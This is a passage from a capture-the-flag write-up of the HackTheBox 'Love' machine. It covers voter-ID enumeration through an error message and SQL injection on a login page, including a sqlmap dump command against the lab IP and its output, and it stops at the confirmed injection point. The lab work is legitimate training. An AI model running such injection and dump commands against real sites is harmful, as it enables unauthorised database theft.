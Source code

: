 However, a useful error message pops up that says “Cannot find voter with the ID”. Accordingly, it may be viable to attain usernames by brute forcing ID’s.

#### SQL Injection (SQLi)

A common vulnerability among login pages is SQLi, so it makes sense to attempt this on the webpage\:

![](/reports/Love/image12.png) 

Upon inputting a SQL query into the username field, an “Incorrect password” message pops up instead of “Cannot find voter with the ID”. Judging from this output, it is likely that this webpage is vulnerable to SQLi.

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/easy/windows/love]                                                                                                                 

└──╼ $sqlmap -r login.burp --batch --dump                                                                                                                                  

       ___                                                                                                                                                                

      __H__                                                                                                                                                                

_ __["]__ __ __  {1.4.10#stable}                                                                                                                                  

|_ -| . ["]     | .'| . |                                                                                                                                                  

[!] legal disclaimer\: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state

and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                    

[\*] starting @ 17\:47\:39 /2021-05-26/                                                                                                                                       

[17\:47\:39] [INFO] parsing HTTP request from 'login.burp'                                                                                                                   

[17\:47\:40] [WARNING] provided value for parameter 'login' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly

[17\:47\:40] [INFO] resuming back-end DBMS 'mysql'

[17\:47\:40] [INFO] testing connection to the target URL                                                                                                                      

got a 302 redirect to 'http\://10.10.10.239\:80/index.php'. Do you want to follow? [Y/n] Y

redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y

sqlmap resumed the following injection point(s) from stored session\:                 

---                                                                                                                                                                         

Parameter\: voter (POST)                                                                                                                                                     